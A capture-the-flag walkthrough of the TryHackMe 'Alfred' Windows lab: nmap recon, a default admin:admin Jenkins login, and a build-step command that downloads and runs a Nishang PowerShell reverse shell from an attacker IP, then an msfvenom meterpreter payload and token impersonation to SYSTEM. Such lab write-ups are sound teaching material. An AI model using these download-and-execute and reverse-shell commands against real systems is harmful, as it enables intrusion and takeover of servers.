# TryHackMe - Alfred

## Recon Stage

Starting with an nmap of the target, we get:

```
┌──(kali㉿kali)-[~/TryHackMe/Alfred]
└─$ nmap -sV -Pn 10.10.6.87                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 11:16 EST
Nmap scan report for 10.10.6.87
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```

The webserver on port 80 seems static and uninteresting for the moment, so I go ahead and explore the webserver on port 8080 which seems to be running a version of Jensins:



Just trying the combination 'admin:admin' gave me access:



After looking into the 'project' project, I found that in their settings there is a build trigger that executes a batch command:



This is most likely going to be our attack vector

## Exploitation

As the target is running Windows, I will be using a reverse powershell (found [here](hhttps://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1))

I perform a wget for the powershell script and startup a python http server so the target can download the script from me:




I then enter the following bash code to execute a download request and invokation of the script:

``
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.3.207:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.3.207 -Port 4444
``



and start a netcat process listening on port 4444:




Back on the website, I save the new configuration and click 'Build Now'.

I am then given a reverse powershell:



I then navigate over to the C:/Users/ and see that there is a user named 'bruce'. On their Desktop holds the user flag.

## Switching Shells

Following with TryHackMe, I attempt to switch shells over to meterpreter to make priviledge escalation easier. To do this, I generated a meterpreter reverse shell payload using msfvenom:

``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.207 LPORT=4443 -f exe -o shell.exe``


I then started metasploit and setup my handler:



And then downloaded and executed the shell by executing the following commands on the target machine:

```
PS C:\Program Files (x86)\Jenkins\workspace\project>powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.9.3.207:8000/shell.exe', './shell.exe');"
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "shell.exe"
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```



Great, we have our meterpreter shell now!

## Privilege Escalation

I start by checking privileges for the current user:



As we can see, SeImpersonatePrivilege is enabled for this user.

I return back into meterpreter and load the incognito library.

Checking what tokens are available using ``list_tokens -g`` I find that BUILTIN\Administrators is available. I attempt to impersonate this token:



I then find and migrate to a higher privilege process, such as services.exe:



This is because, whilst I may have a higher privileged token, I may not have such high permissions as Windows will look at my primary token initially and not the impersonated one.

And now we have SYSTEM access to this machine. I can simply navigate over to the restricted path and find the root flag.